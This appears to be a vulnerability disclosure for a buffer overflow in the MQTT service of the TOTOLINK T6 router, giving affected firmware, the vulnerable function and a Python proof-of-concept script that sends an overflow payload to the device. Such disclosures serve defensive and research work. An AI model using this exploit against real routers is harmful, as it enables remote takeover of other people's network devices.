 # [CVE-2025-7837](https://vuldb.com/?id.316940)

# Information

**Vendor of the products:** TOTOLINK

**Vendor's website:** [TOTOLINK](https://www.totolink.net/)

**Affected products:** [T6](https://www.totolink.net/home/menu/newstpl/menu_newstpl/products/id/190.html)

**Affected firmware version:** V4.1.5cu.748_B20211015

**Firmware download address:** [Download Page](https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/190/ids/36.html)

# Overview

TOTOLINK Mesh Wifi T6 router has a buffer overflow vulnerability in `MQTT` service that lead to RCE.

# Vulnerability details

The `T6` routers open `MQTT` service and listen on port `1883`. In function `recvSlaveStaInfo`. The `dest` buffer is 4 bytes, and the `strcpy` doesn't check for the length of input.

![](4/1.png)

![](4/2.png)

An attacker can implement a RCE attack by sending a malicious `MQTT` packet.

![](4/3.png)

# POC

```python
import paho.mqtt.client as mqtt

payload = b"A" * 36 + b"\x37\x33\x33\x13"

client = mqtt.Client()
client.connect("192.168.0.1", 1883, 60)
client.publish("totolink/router/recvSlaveStaInfo",b'{"slavemac":"%s"}' % payload)
```